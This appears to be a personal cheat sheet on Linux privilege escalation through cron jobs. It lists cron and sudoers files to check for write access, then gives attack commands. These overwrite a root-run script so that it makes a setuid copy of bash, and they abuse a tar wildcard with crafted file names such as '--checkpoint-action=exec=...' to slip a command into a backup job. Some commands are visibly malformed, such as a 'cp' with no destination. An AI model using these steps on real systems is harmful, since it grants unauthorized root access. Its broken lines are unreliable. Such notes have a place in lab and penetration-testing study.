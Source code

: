 

   ### Cron jobs are programs or scripts which users can schedule to run at specific times or intervals. 
   ### Cron table files (crontabs) store the configuration for cron jobs. 
   ### The system-wide crontab is located at /etc/crontab.
    
          cat /etc/crontab
          locate overwrite.sh
          
          
          
   
### Cron jobs

Check if you have access with write permission on these files.   
Check inside the file, to find other paths with write permissions.   

```powershell
/etc/init.d
/etc/cron*
/etc/crontab
/etc/cron.allow
/etc/cron.d 
/etc/cron.deny
/etc/cron.daily
/etc/cron.hourly
/etc/cron.monthly
/etc/cron.weekly
/etc/sudoers
/etc/exports
/etc/anacrontab
/var/spool/cron
/var/spool/cron/crontabs/root

crontab -l
ls -alh /var/spool/cron;
ls -al /etc/ | grep cron
ls -al /etc/cron*
cat /etc/cron*
cat /etc/at.allow
cat /etc/at.deny
cat /etc/cron.allow
cat /etc/cron.deny*
```
          
          
          
          
   ## overwrite.sh Exploit
      
     touch /home/user/overwrite.sh
     echo 'cp /bin/bash /tmp/bash; chmod +s /tmp/bash' > /home/user/overwrite.sh
     chmod +x /home/user/overwrite.sh
     /tmp/bash -p




   ## compress.sh
   
    cat <PATH=compress.sh>
      
   ## OUTPUT
   
          #!/bin/sh
          cd /home/user
          tar czf /tmp/backup.tar.gz *
          
   ## Exploit wildcards
   
        echo 'cp /bin/bash/ /tmp/bash; chmod +s /tmp/bash' > asif.sh
        chmod 777 asif.sh
        touch /home/user/--checkpoint=1
        touch /home/user/--checkpoint-action=exec=sh\asif.sh
        /tmp//bash -p
        
        
        
        
        
   ## Change File permissions And Exploit
   
       locate overwrite.sh
       echo 'cp /bin/bash; chmod +s /tmp/bash' >> /usr/local/bin/overwrite.sh
       /tmp/bash -p
   
   
   
   
     
